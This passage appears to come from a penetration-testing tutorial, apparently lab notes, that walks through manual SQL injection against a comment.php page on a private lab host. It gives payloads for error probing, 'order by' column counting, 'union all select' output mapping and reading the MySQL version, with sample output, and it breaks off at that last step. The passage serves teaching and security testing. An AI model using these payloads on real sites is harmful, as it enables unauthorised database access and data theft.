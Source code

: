 ```
http://10.11.5.14/comment.php?id=767'
```

The verbose error output when the id parameter is unsanitized and unvalidated is similar to:

```
Debug output: SELECT * FROM guestbook where id = 767’
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''' at line 1
```

#### [2] Enumerate column numbers

Depends on the verbosity of the web application. Attempt to gather information about database structure by using the `order by X` output query, where `X` begins with 1. Increase by 1 until an error is thrown.

```
10.11.5.14/comment.php?id=767 order by 1
10.11.5.14/comment.php?id=767 order by 2
10.11.5.14/comment.php?id=767 order by 3
...
```

Keep incrementing `X` by 1 until an error is thrown:

```
Debug output: SELECT * FROM guestbook where id = 767 order by 7
Unknown column '7' in 'order clause’
```

Now you know that the current table in use has exactly 6 (or `X-1`) columns.

#### [3] Learn table and output layout

Our next step is to figure out where table data is displayed on the page so we can fill the best output field with our extracted data. We use the "union all select" statement for this, and that statement relies on knowing exactly how many columns exist in the table. First we have to understand where the affected page shows the output of our queries:

```
10.11.5.14/comment.php?id=767 union all select 1,2,3,4,5,6
```

which shows this output:

```
Debug output: SELECT * FROM guestbook where id = 767 union all select 1,2,3,4,5,6
ID     Lang     Name     Comment
767    en       Tim      Crappy comment text
1      2        3        5
```

Based on that output, we should use column 5 for our output since it supports the most text. 

#### [4] Version of MySQL in use

```
http://10.11.5.14/comment.php?id=767 union all select 1,2,3,4,@@version,6
```
